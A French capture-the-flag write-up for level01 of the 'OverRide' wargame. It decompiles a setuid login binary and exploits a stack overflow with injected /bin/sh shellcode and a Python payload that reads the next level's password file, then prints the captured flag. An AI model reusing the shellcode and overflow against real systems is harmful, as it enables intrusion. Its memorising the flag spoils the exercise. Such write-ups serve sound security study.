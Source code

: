 # OverRide : [level01]

### Observation :
En arrivant sur le level01 on trouve un exécutable nommé level01.\
Quand nous essayons de le lancer cela nous demande un login, puis nous refuse l'acces. \
Regardons donc avec gdb ou un decompilateur.

---

#### Source décompilée:
```c
char a_user_name[100]; // idb

//----- (08048464) --------------------------------------------------------
_BOOL4 verify_user_name()
{
  puts("verifying username....\n");
  return memcmp(a_user_name, "dat_wil", 7u) != 0;
}

//----- (080484A3) --------------------------------------------------------
_BOOL4 __cdecl verify_user_pass(const void *a1)
{
  return memcmp(a1, "admin", 5u) != 0;
}

//----- (080484D0) --------------------------------------------------------
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char s[64]; // [esp+1Ch] [ebp-4Ch] BYREF
  _BOOL4 v5; // [esp+5Ch] [ebp-Ch]

  memset(s, 0, sizeof(s));
  v5 = 0;
  puts("********* ADMIN LOGIN PROMPT *********");
  printf("Enter Username: ");
  fgets(a_user_name, 256, stdin);
  v5 = verify_user_name();
  if ( v5 )
  {
    puts("nope, incorrect username...\n");
  }
  else
  {
    puts("Enter Password: ");
    fgets(s, 100, stdin);
    v5 = verify_user_pass(s);
    puts("nope, incorrect password...\n");
  }
  return 1;
}
```

#### Détails du programme:
```bash
-rwsr-s---+ 1 level02 users   7360 Sep 10  2016 level01
```

#### Fonctions:

| Nom | Description |
| --- | ----------- |
| `<main>` | Notre fonction main nous demande dans un premier temps de lui donner un nom d'utilisateur (stdin de 256 octets) puis appel la fonction `<verify_user_name>`, si le retour est bon il nous demande un password (stdin de 100 octets) puis appel la fonction `<verify_user_pass>`, ensuite dans tout les cas il retourne la chaine `"nope, incorrect password...\n"`.|
| `<verify_user_name>` | Cette fonction vas juste verifier si notre `stdin` est egal à: `"dat_wil"` (uniquement 7 octets, cela ne compare donc pas le `\0`)|
| `<verify_user_pass>` | cette fonction est similaire a `<verify_user_name>` sauf que cette fois si elle compare notre `stdin` à: `"admin"` (uniquement 5 octets, cela ne compare donc pas le `\0`).|


#### Conclusions:
Nous avons un programme qui a potentielement 2 buffer overflow, un pour chaque `stdin`. \
Nous n'avons pas de moyen normal d'acceder a un shell dans le programme donc nous allons devoir injecter un `shellcode`. \


----
Résolution:
----
Nous allons devoir injecter notre `shellcode` ou nous trouvons de la place, par exemple dans le premier `stdin` juste apres la chaine de 7 octets: `"dat_wil"`. \
Nous devons aussi `jump` depuis la valeur de `return` sur notre `shellcode` grace au 2eme overflow de `stdin`. 

Pour se faire:
- Nous allons donc ecrire dans le premier `stdin` la chaine `"dat_wil"` pour passer la premiere condition, puis mettre notre `shellcode` pour acceder au shell plus tard. 
- Ensuite nous devons replir le reste de notre `stdin` avec des octets random (ou metre un \n). 
- Nous allons par la suite trouver l'adresse de retour afin de pouvoir la modifier, pour jump sur notre shellcode qui se trouve à l'adresse du premier `buffer de stdin (+7 pour la chaine de caractere "dat_wil")`.
- En regardans dans gdb on se rend compte que notre adresse de retour se trouve à `+79 octets` en partant de notre second `buffer (stdin)`, c'est la qu'il faut ecrire l'adresse ou se trouve notre `shellcode` pour qu'il soit executer.



#### Injection:
```asm
# SHELLCODE
# La fonction injectée appelle <system> avec '/bin/sh' en paramètre:

0:  6a 0b                   	push   0xb
2:  58                      	pop    eax
3:  31 f6                   	xor    esi,esi
5:  56                      	push   esi
6:  68 2f 2f 73 68          	push   0x68732f2f
b:  68 2f 62 69 6e          	push   0x6e69622f
10: 89 e3                   	mov    ebx,esp
12: 31 c9                   	xor    ecx,ecx
14: 89 ca                   	mov    edx,ecx
16: cd 80                   	int    0x80
```
#### Commande:
```bash
(python -c "print ('dat_wil\x6a\x0b\x58\x31\xf6\x56\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\x89\xca\xcd\x80' + 'a' * (256 - 24 - 7) + 'b'*(79) + '\x08\x04\xa0\x47'[::-1])"; ec
ho 'cat /home/users/level02/.pass') | /home/users/level01/level01

```

**Flag :** PwBLgNa8p8MTKW57S7zxVAQCxnCpV8JqTTs9XEBv
